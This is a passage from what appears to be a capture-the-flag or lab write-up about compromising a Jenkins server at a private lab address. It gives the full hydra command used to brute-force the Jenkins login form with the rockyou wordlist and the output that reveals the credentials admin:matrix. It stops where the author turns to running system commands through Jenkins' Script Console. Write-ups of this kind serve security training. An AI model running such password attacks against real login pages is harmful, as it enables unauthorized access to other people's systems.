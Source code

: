 I [found](https://www.shellhacks.com/jenkins-default-password-username/) that the default Jenkins username is `admin`, and after trying default easy passwords 
unsuccessfully I moved on and try to bruteforce the login page with `hydra`.

# [](#header-1)Login bruteforcing.

First I intercepted the login request with BurpSuite to find the parameters being sent:

![](assets/burp_login.png)

Then, the final hydra command looks like this:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid" -V -I -F
```

After a while it discovers the password:

```bash
...
[ATTEMPT] target 10.150.150.38 - login "admin" - pass "gloria" - 649 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.150.150.38 - login "admin" - pass "tyler" - 650 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.150.150.38 - login "admin" - pass "aaron" - 651 of 14344399 [child 0] (0/0)
[30609][http-post-form] host: 10.150.150.38   login: admin   password: matrix
[STATUS] attack finished for 10.150.150.38 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-08 20:30:18
```

The creds are `admin` : `matrix`

# [](#header-1)Jenkins code execution.

In the Script Console page we can execute Java code, and we can use it to execute system commands:
